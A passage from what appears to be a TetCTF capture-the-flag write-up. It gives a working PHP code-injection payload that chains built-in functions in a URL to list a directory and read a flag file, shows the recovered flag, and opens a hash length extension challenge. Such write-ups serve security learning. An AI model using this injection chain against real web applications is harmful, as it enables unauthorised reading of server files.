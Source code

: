  From now on, it is similar to  phplimit revenge 1, just read flag, final payload :

{% code title="final-payload" %}
```text
view-source:http://45.76.181.81/?code=print(readfile(end(scandir(chr(octdec(ord(ceil(sqrt(ord(exp(chdir(next(scandir(current(localeconv())))))))))))))));
```
{% endcode %}

{% code title="flag" %}
```text

<?php

$flower="TetCTF{__Hey___PhP___Master___}";

?>
```
{% endcode %}

```text
Thanks @Ariana for teaching me thinking in multiple base/dimension
```

## Web - IQ Test 2

{% code title="challenge.php" %}
```php
https://pastebin.com/7zdc5DNX
```
{% endcode %}

This is a challenge about hash length extension, I used this tool below to calculate saved and hash for level13

```text
https://github.com/iagox86/hash_extender
```
